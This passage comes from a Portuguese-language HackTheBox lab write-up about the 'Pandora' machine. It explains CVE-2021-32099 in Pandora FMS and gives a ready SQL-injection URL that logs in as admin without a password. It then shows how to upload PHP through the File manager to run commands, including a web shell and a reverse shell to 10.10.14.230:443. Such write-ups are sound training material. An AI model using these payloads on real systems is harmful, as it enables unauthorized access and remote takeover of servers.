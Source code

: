 ## 3.5. CVE-2021-32099

Esta vulnerabilidade parece perfeita para o nosso caso. A versão é exatamente a mesma, e permite um usuário random não autenticado entrar sem password nem nada.

> Existe também um exelente artigo a explicar a vulnerabilidade: [Artigo](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

E no github, encontramos tudo e mais alguma coisa sobre todos os assuntos! Este assunto não é exceção.

> [POC CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

Pelos vistos basta entrar na página normal de login, e adicionar à URL **http://localhost/pandora_console/** o seguinte: **include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271**

Depois voltar á página inicial de login e já está... **http://localhost/pandora_console/**

## 3.6. RCE com usuário **matt**

![filemanager](Assets/HTB-Linux-Easy-Pandora/filemanager.png)

Para executar comandos, é bastante simples. No File manager, é só fazer o upload de um ficheiro para executar comando. Eu vou logo executar o reverse shell, mas poderiamos criar outro ficheiro:

```php
# Existe mil e uma forma de executar comandos, dependendo de como está montado o serviço PHP. Para dar apenas 2 exemplos:
# Para RCE, através de um parâmetro:
<?php
     echo "\nURL Shell... url?cmd=<command>\n\n";
     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# Para diretamente ter o reverse shell:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.230/443 0>&1'");?>
```
